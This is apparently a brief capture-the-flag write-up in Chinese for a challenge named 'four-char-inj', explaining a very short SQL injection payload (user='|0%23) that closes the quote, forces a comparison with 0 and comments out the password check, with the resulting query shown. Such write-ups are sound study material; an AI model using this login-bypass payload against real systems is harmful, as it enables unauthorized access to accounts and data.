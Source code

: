 # four-char-inj
解題邏輯：用超短payload (>4 char) SQL injection

payload =  `user='|0%23&pass=`

先用 `'` 閉合前面，再將 user 字串比較為 0 ，並用註解符 `#` url encode過

> SELECT * FROM user WHERE username=''|0%23<del>' and password='" . $pass . "'</del>

